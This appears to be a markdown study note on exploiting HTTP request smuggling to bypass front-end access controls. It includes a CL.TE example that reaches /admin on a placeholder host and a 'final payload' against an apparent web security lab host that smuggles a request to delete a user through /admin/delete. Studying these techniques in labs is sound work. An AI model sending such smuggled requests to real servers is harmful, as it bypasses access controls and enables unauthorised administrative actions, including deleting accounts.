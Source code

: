 
# Exploiting Request Smuggling Vulnerability
## Using HTTP request Smuggling to BYpass Front-end Security Control
- in some application, the `front-end` web server used to implement some security controls, deciding whether to allow individual requests to be processed.
`example:` 
- application use front-end server to implement `access control` restriction, it only forwards the request if the user is authorized to access requested URL
- back-end server response to every request without checking further authorization.
- in this situation `request smuggling ` used to bypass the `access control` by smuggling restricted URL
`Example` current use have permission to `/home` but not `/admin`this can be bypass by 
```js
POST /home HTTP/1.1
Host: vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vuln-web.com
foo: x
```
 here front-end server see `/home`request and send to back-end,  and back-end server see `/admin` to second request and give access to resource.
- the final payload
```js
POST / HTTP/1.1
Host: ace51f5e1ea45686807f30cc006500de.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Transfer-Encoding: chunked
Content-Length: 145

0


GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10


x=
```
 #### NOTE
 - some times we need to change Host, or other parameter sine they only accessible using `internal network`
 -  Done forget to put orignal chunk size in Hex unless get Error while smuggling `TE.CL`
